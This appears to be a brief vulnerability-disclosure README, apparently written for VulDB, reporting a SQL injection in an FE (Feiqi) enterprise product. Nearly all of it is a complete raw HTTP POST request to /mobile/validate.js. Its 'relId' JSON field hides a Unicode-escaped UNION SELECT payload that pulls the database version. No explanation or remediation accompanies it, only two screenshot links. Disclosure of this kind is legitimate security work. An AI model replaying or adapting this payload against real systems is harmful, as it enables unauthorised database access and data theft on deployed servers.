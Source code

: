 # forVuldb

SQL injection, FE飞企互联(Guangdong Flying Enterprise Internet Technology Co., Ltd)


POST /mobile/validate.js%70 HTTP/1.1
Host: xxx.xxx.xxx.xxx.xxx
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 292

json={"type":"0","relId":"\u0031\u0027\u0020\u0061\u006e\u0064\u0020\u0031\u003d\u0032\u0020\u0075\u006e\u0069\u006f\u006e\u0020\u0073\u0065\u006c\u0065\u0063\u0074\u0020\u0031\u002c\u0031\u002c\u0040\u0040\u0076\u0065\u0072\u0073\u0069\u006f\u006e\u002d\u002d\u0025\u0032\u0035\u0032\u0030"}

 
![image](https://github.com/curlyyyyyyyy/forVuldb/assets/155808433/99d25a13-770e-43ab-a4a1-a63dd7bd2827)

 ![image](https://github.com/curlyyyyyyyy/forVuldb/assets/155808433/560dbe28-5951-4142-88f9-a1f714027f80)
